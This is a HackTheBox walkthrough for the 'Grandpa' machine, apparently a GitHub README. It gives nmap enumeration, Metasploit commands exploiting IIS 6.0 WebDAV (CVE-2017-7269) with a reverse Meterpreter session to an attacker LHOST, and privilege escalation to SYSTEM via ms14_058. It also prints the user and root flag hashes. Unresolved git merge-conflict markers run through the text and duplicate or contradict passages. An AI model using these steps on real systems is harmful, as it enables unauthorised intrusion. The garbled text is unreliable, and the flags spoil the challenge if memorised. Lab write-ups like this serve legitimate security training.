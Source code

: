 # HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```
<<<<<<< HEAD
<<<<<<< HEAD
![nmap](img/nmap.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![nmap](img/nmap.png)
>>>>>>> bbca5bf (Update README.md)

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)

<<<<<<< HEAD
<<<<<<< HEAD
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> bbca5bf (Update README.md)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
<<<<<<< HEAD
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)
=======
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
>>>>>>> bbca5bf (Update README.md)

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```
<<<<<<< HEAD
<<<<<<< HEAD
![migrate](img/migrate.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![migrate](img/migrate.png)
>>>>>>> bbca5bf (Update README.md)

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
<<<<<<< HEAD
<<<<<<< HEAD
![recon](img/recon.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![recon](img/recon.png)
>>>>>>> bbca5bf (Update README.md)

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```
<<<<<<< HEAD
<<<<<<< HEAD
![root](img/root.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![root](img/root.png)
>>>>>>> bbca5bf (Update README.md)

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```
<<<<<<< HEAD
<<<<<<< HEAD
![userflag](img/userflag.png)
=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![userflag](img/userflag.png)
>>>>>>> bbca5bf (Update README.md)

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```
<<<<<<< HEAD
<<<<<<< HEAD
![rootflag](img/rootflag.png)
=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![rootflag](img/rootflag.png)
>>>>>>> bbca5bf (Update README.md)

---
